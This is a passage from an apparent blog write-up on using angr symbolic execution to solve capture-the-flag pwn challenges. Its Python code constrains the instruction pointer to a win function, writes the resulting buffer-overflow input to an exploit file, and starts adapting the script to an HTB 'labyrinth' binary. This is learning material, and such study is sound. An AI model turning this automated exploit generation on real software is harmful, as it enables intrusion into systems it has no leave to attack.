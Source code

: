 ```py
# Get the state in which the PC is controlled by the input
pwned_state = simgr.unconstrained[0]

# Contraint rip to address of ret2win plus the stack adjustment
pwned_state.add_constraints(pwned_state.regs.rip == cat_flag + stack_adjustment)

# Extract the concrete content of stdin from pwned_state
exploit = pwned_state.posix.dumps(0)
with open("exploit", "wb") as f:
    f.write(exploit)
    f.write(b"\n") 
```
![](/assets/posts/2024-02-18-angr-for-solving-pwn-challenges/ret2win_flag.bmp)


This time, successfully executing the binary with the exploit via stdin resulted in the flag being printed! Now that I have successfully completed the ret2win challenge, I will test the script on the labyrinth challenge from last year's HTB Cyber Apocalypse CTF. This warm-up pwn challenge required navigating through the right door, executing a buffer overflow, and returning to the escape_plan function within the binary. Upon reaching this function, the flag is revealed. The modified code below reflects the changes made, primarily focusing on the binary being analyzed and the updated cat_flag variable.

```py
import angr
import claripy
import os

# Analyzing the main binary without automatically loading external libraries for a more concise and focused control flow graph.
project = angr.Project("./labyrinth", auto_load_libs=False)

# Analyze the control flow graph of the binary
cfg = project.analyses.CFGFast()

# Get the address for escape_plan from the binary
cat_flag = project.kb.functions["escape_plan"].addr

# The required adjustment needed to fix stack alignment issue
alignment_required = 1  

# Create a symbolic variable for the stack adjustment
stack_adjustment = claripy.BVS("stack_adjustment", 8 * 8)

# Adjust the symbolic stack size based on the alignment requirement
sym = claripy.BVS("stdin", (1024 + alignment_required) * 8)

# Create the initial state with the adjusted stack size
initial_state = project.factory.entry_state(
    stdin=sym,
    add_options={angr.options.STRICT_PAGE_ACCESS}
)

```